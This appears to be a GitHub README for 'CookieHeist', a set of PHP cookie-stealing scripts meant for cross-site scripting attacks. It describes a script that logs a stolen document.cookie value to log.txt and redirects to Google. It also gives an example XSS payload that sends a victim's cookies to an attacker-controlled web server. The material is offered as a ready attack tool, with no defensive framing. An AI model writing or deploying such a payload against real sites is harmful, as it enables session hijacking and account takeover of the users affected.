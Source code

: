# CookieHeist
PHP Cookie Stealing Scripts for use in XSS

1. Cookiesteal-simple.php 
Records whatever "c" parameter holds, in example case the document.cookie string. Then writes value to log.txt and redirects to Google.com.
Example: http://[Attacker Webserver]/cookiesteal-simple.php?c=document.cookie
XSS Payload Example: <script javascript:text>document.location="http://[Attacker Webserver]?c=" + document.cookie + "&t=Alert"; </script>
